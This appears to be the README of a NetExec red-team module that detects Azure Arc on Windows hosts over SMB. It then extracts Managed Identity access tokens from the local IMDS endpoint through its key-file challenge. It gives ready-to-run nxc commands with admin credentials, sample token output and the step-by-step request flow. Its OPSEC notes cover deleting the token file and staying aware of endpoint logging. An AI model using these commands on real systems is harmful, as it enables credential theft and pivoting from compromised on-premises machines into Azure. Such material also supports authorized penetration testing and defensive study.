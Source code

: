 # NetExec Module: `azurearc`

Enumerates Azure Arc presence on Windows targets and, when present, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented **401 challenge → `.key` file → second request** flow.

- **Protocol:** SMB (requires local administrator privileges)
- **Primary use case:** Rapidly map Arc deployment and obtain a cloud-scoped token for Azure control-plane enumeration during red team engagements.

---

## ✨ Features

- **Presence check** (`CHECK=true`): Detects Arc agent by listing well-known install paths.
- **Token retrieval** (default): Executes the IMDS challenge/response locally on the target and returns JSON containing `access_token`.

---

## ⚙️ Usage

```bash
# Presence check only :
nxc smb <TARGET> -u <USER> -p '<PASS>' -M azurearc -o CHECK=true

# Token dump :
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
[*] Attempting to retrieve Azure Arc Managed Identity access token
[+] Managed Identity token retrieved
{
  "access_token": "eyJhbGciOi...<redacted>...",
  "expires_on": "1730812345",
  "token_type": "Bearer",
  "resource": "https://management.azure.com"
}


🔍 How It Works (Behavior)
Presence check via SMB listing:
C:\Program Files\AzureConnectedMachineAgent\*
C:\Program Files (x86)\AzureConnectedMachineAgent\*

Token retrieval on target (PowerShell):
1.GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=...
→ expect 401 with WWW-Authenticate: Basic realm="<path to .key>"
Read the .key contents (requires local admin).
2.Second GET with Authorization: Basic <key> to obtain token JSON.
Write JSON to OUTFILE, fetch via SMB, and delete the file.

📸 Screenshots
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/41ae5d89-0756-44dd-a0a5-7d936d3879c2" />
<img width="1189" height="391" alt="2025-10-05_17h29_40" src="https://github.com/user-attachments/assets/1b362d70-aace-4c94-bcbf-beb7e0679d3d" />


🔒 OPSEC & Scope Notes
Local admin required on the target (matches Arc’s security boundary).
Tokens are written to a temp file on the target only long enough to read back via SMB. the file is then deleted.
Be mindful of token lifetime and endpoint logging.


🧭 References
NSIDE Attack Logic  Azure Arc - Part 1 - Escalation from On-Premises to Cloud
https://www.nsideattacklogic.de/azure-arc-part-1-escalation-from-on-premises-to-cloud/

